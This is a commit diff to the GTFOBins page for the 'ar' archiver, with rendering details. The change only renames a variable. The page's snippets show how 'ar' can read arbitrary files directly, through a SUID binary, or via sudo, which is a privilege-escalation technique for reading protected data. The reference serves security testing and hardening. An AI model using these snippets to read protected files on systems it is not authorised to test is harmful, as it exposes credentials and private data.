

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ar.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update ar

```diff
--- a/_gtfobins/ar.md
+++ b/_gtfobins/ar.md
@@ -3,20 +3,20 @@ description: The file appears amid the binary content of the archive.
 functions:
   file-read:
     - code: |
-        OUTFILE=$(mktemp -u)
+        TF=$(mktemp -u)
         LFILE=file_to_read
-        ar r "$OUTFILE" "$LFILE"
-        cat "$OUTFILE"
+        ar r "$TF" "$LFILE"
+        cat "$TF"
   suid:
     - code: |
-        OUTFILE=$(mktemp -u)
+        TF=$(mktemp -u)
         LFILE=file_to_read
-        ./ar r "$OUTFILE" "$LFILE"
-        cat "$OUTFILE"
+        ./ar r "$TF" "$LFILE"
+        cat "$TF"
   sudo:
     - code: |
-        OUTFILE=$(mktemp -u)
+        TF=$(mktemp -u)
         LFILE=file_to_read
-        sudo ar r "$OUTFILE" "$LFILE"
-        cat "$OUTFILE"
+        sudo ar r "$TF" "$LFILE"
+        cat "$TF"
 ---
```
